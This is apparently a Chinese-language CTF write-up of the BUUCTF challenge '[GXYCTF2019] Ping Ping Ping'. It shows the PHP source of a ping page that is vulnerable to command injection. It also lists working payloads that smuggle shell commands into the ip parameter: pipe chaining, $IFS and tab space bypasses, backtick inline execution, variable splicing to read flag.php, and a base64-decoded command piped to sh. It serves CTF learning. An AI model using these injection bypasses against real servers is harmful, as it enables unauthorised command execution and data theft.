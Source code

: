 ```yaml
---
title: GXYCTF2019 Ping Ping Ping
date: 2020-12-04 20:24:50
categories: ['DROPS']
tags: ['Web','BUUCTF_Web','RCE']
cover: https://cdn.jsdelivr.net/gh/penginman/PicBed@master/cover/20201120223448.jpg 
---
```


# [GXYCTF2019]Ping Ping Ping

题目链接：https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping

和DMCTF做的那道**pingpingping**类似，同样是使用管道符构造payload，先使用：

```
?ip=127.0.0.1|ls
```

目录下有两个文件：`flag.php`、`index.php`。首先试出来了空格被过滤，使用以下绕过空格：

```
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能
%20 
%09 
```

在linux下反单引号里面的指令会被执行 **\`ls\`**

```
?ip=|cat$IFS`ls`
```

会输出该目录下所有可以打开的文件，可以查看**index.php**的部分源码有哪些过滤：

```php
/?ip=|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

一些基本的符号、空格、bash、任何形式的flag字眼都被过滤了。接下来就是找访问**flag.php**。在网上看了好多的题解，用了好多方法，但是网页输出都为空，原来以为和其他题目一样使用**readflag**的ELF执行文件访问，但是还没成功。其实执行：

```
?ip=|cat$IFS`ls`
```

这个payload的时候文件都已经输出了，我最后在网页源码找到了，原来是被注释了<span class='heimu'>我是傻逼</span>。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201205110806.png)

**最后记录下学到的姿势和这道题目的其他思路**：

* 管道符：
  * `|`直接执行后面的语句。
  * `||`如果前面语句错误，执行后面的语句。
  * `&`前面和后面命令都要执行，无论前面真假，
  * `&&`如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令

* 使用以下绕过空格：

```
$IFS
${IFS}
${IFS}$1
$IFS$1 //$1改成$加其他数字貌似都行
<
<> 
{cat,flag.php}  //用逗号实现了空格功能
%20 
%09 //需要php环境
```

* 覆盖源码里的`$a`变量（拼接变量）：

```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

* 使用sh执行脚本：

```
/?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

* 内联执行：

```
/?ip=|cat$IFS`ls`
```

>附：大佬整理的博客（内含更多姿势）：[命令执行漏洞利用及绕过方式总结](https://www.ghtwf01.cn/index.php/archives/273/)